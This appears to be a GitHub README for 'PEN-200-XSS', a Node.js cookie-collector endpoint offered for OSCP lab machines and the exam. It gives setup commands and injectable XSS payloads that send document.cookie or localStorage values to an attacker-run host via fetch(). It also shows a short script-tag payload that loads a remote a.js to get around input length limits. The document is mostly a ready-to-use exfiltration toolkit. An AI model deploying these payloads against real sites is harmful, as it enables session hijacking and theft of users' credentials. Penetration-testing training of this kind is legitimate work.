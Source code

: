 # PEN-200-XSS

I created this simple XSS API endpoint for PEN-200 lab machines and the exam.

You need to install Node.js and NPM in your Kali linux.

```bash
sudo apt update
sudo apt install nodejs
sudo apt install npm
```

After the installation, make sure to run the following commands to make sure the installation is completed.

```bash
node -v
npm -v
```

And clone this repo or if you don't have git in your Kali, you can download it and run the following command to install Express.js.

```bash
npm install
```

## Usage

Firstly, run Node.js server.

```bash
npm run node
```

The endpoint will be `http://[your_ip_address]:3000/collect`.

Secondly, inject the following code in the target system.

```html
<script>
	fetch('http://[your_ip_address]:3000/collect?data' + document.cookie);
</script>
```

The example above sends cookie to the server and logs it in the text file `log.txt` in the root directory.

If you need a value from local storage, replace `document.cookie` with `localStorage.getItem("[key_name]")`.

## When input field has a character length constraint

Sometimes you find weak input fields that doesn't sanitize user inputs, but it only accepts X amount of characters, like 50 characters for instance.

The above example won't work, and in that case you should create a js file with the following content.

```JavaScript
fetch('http://[your_ip_address]:3000/collect?data' + document.cookie);
```

Name the file as `a.js` and load it with a script tag.

```html
<script src=http://[your_ip_address]/a.js>
```

Now instead of injecting the `fetch` code into the input field, you can inject the script tag to bypass the constraint.

`a.js` should be hosted by SimpleHTTPServer or other server of your choice.

I recommend to set the port to 80, so you don't need to include the port number in the URL which shortens overall character length. 
